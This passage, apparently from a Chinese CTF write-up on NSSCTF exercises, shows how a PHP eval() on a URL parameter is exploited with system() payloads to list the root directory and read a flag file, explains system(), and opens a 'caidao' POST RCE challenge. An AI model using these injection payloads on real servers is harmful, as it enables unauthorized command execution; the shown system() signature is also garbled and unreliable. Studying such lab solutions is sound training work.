 是eval函数导致的，eval函数会直接运行代码，所以我们尝试通过输入url参数产看根目录下有什么

```
/?url=system("ls /");
```

通过ls命令我们得到了

![1742828658284](image/NSS/1742828658284.png)

然后通过cat命令查看了flllllaaaaaaggggggg文件，得到flag

```
/?url=system("cat /flllllaaaaaaggggggg");
```

system()
system() 是 PHP 中⽤于执⾏外部程序并显⽰输出的⼀个函数。这个函数接受⼀个字符串
参数，该参数是要执⾏的命令，然后在 Web 服务器上执⾏这个命令。
基本语法：

```
system(string command, int &command, int &return_var);
```

$command : 要执⾏的命令。
&$return_var （可选）：此变量将填充执⾏命令后的返回状态。

需要注意的是，使⽤ system() 或其他⽤于执⾏外部命令的函数时必须⾮常⼩⼼，特别是
当命令中包含⽤户提供的数据时。否则，你的应⽤程序将容易受到命令注⼊攻击。

# 7.[SWPUCTF 2021 新生赛]caidao

观察代码是一个用利用post请求的rce漏洞，eval函数导致的

![1742833451698](image/NSS/1742833451698.png)
